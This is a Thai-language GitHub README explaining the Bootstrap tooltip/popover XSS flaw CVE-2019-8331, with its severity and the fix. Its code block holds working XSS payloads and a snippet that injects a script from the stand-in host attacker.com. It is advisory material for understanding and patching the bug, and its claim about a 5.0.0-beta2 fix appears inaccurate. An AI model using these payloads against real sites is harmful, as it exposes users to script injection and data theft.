 #### [Eng](https://github.com/Thampakon/CVE-2019-8331/blob/main/READMEENG.md)
## อธิบาย

**CVE-2019-8331 เป็นช่องโหว่ด้านความปลอดภัยประเภท Cross-Site Scripting (XSS) พบใน Bootstrap ซึ่งเป็นไลบรารี JavaScript ที่ใช้กันอย่างแพร่หลายในการพัฒนาเว็บไซต์และแอปพลิเคชันมือถือ ช่องโหว่นี้เกิดขึ้นเนื่องจาก Bootstrap ไม่ได้กรองข้อมูลอย่างเหมาะสมที่ส่งมากับแอตทริบิวต์ data-template ขององค์ประกอบ tooltip หรือ popover ทำให้ผู้โจมตีสามารถแทรกโค้ดที่เป็นอันตรายลงในหน้าเว็บได้**

**การโจมตีนี้สามารถเกิดขึ้นได้หากผู้โจมตีสามารถควบคุมข้อมูลที่จะแสดงเป็น tooltip หรือ popover ได้ เมื่อผู้ใช้เปิดใช้งาน tooltip หรือ popover โค้ดที่เป็นอันตรายจะถูกแทรกลงในหน้าเว็บและอาจถูกเรียกใช้โดยเบราว์เซอร์ของผู้ใช้**

**ช่องโหว่นี้ได้รับการแก้ไขใน Bootstrap เวอร์ชัน 4.3.1 และ 5.0.0-beta2 ผู้ดูแลระบบควรอัปเดต Bootstrap เวอร์ชันที่ได้รับผลกระทบเพื่อแก้ไขช่องโหว่นี้**

**รายละเอียดเพิ่มเติมเกี่ยวกับช่องโหว่ CVE-2019-8331:**

* **ประเภท: XSS**
* **ระดับความรุนแรง: กลาง**
* **ผลกระทบ: แทรก Code อัตราย**
* **ตำแหน่ง: Client**
* **วิธีแก้: อัพเดต Bootstrap**

```
<x data-toggle="tooltip" data-template="<img src=x onerror=alert(1)>">XSS</x>
<x data-toggle="tooltip" data-html="true" title='<script>alert(1)</script>'>XSS</x>
<x data-toggle="tooltip" data-html="true" data-content='<script>alert(1)</script>'>XSS</x>

<script>
  var script = document.createElement("script");
  script.src = "https://attacker.com/malicious.js";
  document.body.appendChild(script);
</script>
```

## Credit
[BlackFan](https://gist.github.com/BlackFan/e968b5209637952cca1580dc8ffdfde6)
